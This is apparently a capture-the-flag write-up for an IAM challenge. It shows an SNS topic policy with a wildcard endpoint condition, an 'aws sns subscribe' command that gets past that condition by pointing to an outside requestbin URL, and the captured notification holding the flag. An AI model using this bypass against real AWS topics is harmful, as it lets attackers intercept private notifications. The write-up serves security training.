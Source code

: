 # Challenge 3

**Challenge 3:** https://bigiamchallenge.com/challenge/3

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/f6eeae81-e16d-4eef-9b81-efe28552ffa7)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/54ec8c68-a9ca-4c0c-ade5-9f48fc427390)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/ccaee9d9-ba02-4c4b-98c7-180e87db9185)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/b3123301-b3d8-4ef2-927a-513adef70f7d)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/4e9f8d5b-807c-46af-99eb-0eefaea976fb)

![image](https://github.com/h4md153v63n/CloudSec/assets/5091265/bd6c9656-9d6b-4ebe-a952-4037404b1971)

```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

```
aws sns subscribe --topic-arn "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications" --protocol https --notification-endpoint https://eo3cger2lfp4pnh.m.pipedream.net/@tbic.wiz.io
{
    "SubscriptionArn": "pending confirmation"
}
```

Use https://pipedream.com/requestbin

```sh
{
  "event": {
    "method": "POST",
    "path": "/@tbic.wiz.io",
    "query": {},
    "client_ip": "72.21.217.142",
    "url": "https://eo3cger2lfp4pnh.m.pipedream.net/@tbic.wiz.io",
    "headers": {
      "host": "eo3cger2lfp4pnh.m.pipedream.net",
      "x-amzn-trace-id": "Root=1-665ce0a0-17e9424a0360c75704188102;Parent=3772c3f65797a758;Sampled=0;Lineage=36680206:0",
      "content-length": "963",
      "x-amz-sns-message-type": "Notification",
      "x-amz-sns-message-id": "362d4642-8a4f-5772-8d04-189468afc901",
      "x-amz-sns-topic-arn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
      "x-amz-sns-subscription-arn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:e79e6f9e-57d1-428b-8b46-c165c42cbb6f",
      "content-type": "text/plain; charset=UTF-8",
      "user-agent": "Amazon Simple Notification Service Agent",
      "accept-encoding": "gzip,deflate"
    },
    "body": {
      "Type": "Notification",
      "MessageId": "362d4642-8a4f-5772-8d04-189468afc901",
      "TopicArn": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
      "Message": "{wiz:always-suspect-asterisks}",
      "Timestamp": "2024-06-02T21:14:08.547Z",
      "SignatureVersion": "1",
      "Signature": "ULouJsa9ad6igZIwBaE5Xh/iDVFVOuZ6BUmEaqnlu9NsQpu5/JuDJ1OWuEd8vrFukz83NHFQmQX0csPORa51dCj9aGLwNHalosgDG3aFfkkTsaWD53kCEKeWiMxp6TxtmKQJa2WqWtTCh74cd3X98weo05qNbH1cUh23w9mbnhmlm4kS0K1rUFOWCnFMh05l78yFOyLgihnQ5Toyp5Y/D0SXEn4/8XbXKght9WF3fcLuoV06CKOaOcqhEOUFHB99IsNlCLGyGO9deDcGGXzRqgUph1OfXvTk+HdtGPqFFt4z7Nbwn2vm7F/nFiEQ+EYKA+70Jj+dq/mLk4VvcZhHJg==",
      "SigningCertURL": "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-60eadc530605d63b8e62a523676ef735.pem",
      "UnsubscribeURL": "https://sns.us-east-1.amazonaws.com/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:e79e6f9e-57d1-428b-8b46-c165c42cbb6f"
    }
  },
  "context": {
    "id": "2hLABTcXapAu8qfEUjs5sVkUFmg",
    "ts": "2024-06-02T21:14:08.649Z",
    "pipeline_id": null,
    "workflow_id": "p_BjCaLL8",
    "deployment_id": "d_dlsdrnRe",
    "source_type": "COMPONENT",
    "verified": false,
    "hops": null,
    "test": false,
    "replay": false,
    "owner_id": "o_9WIm0bJ",
    "platform_version": "3.49.1",
    "workflow_name": "RequestBin",
    "resume": null,
    "emitter_id": "hi_G7HQXbD",
    "trace_id": "2hLABWBu6tqz7rXdKS9vlkJkHjW"
  }
}
```

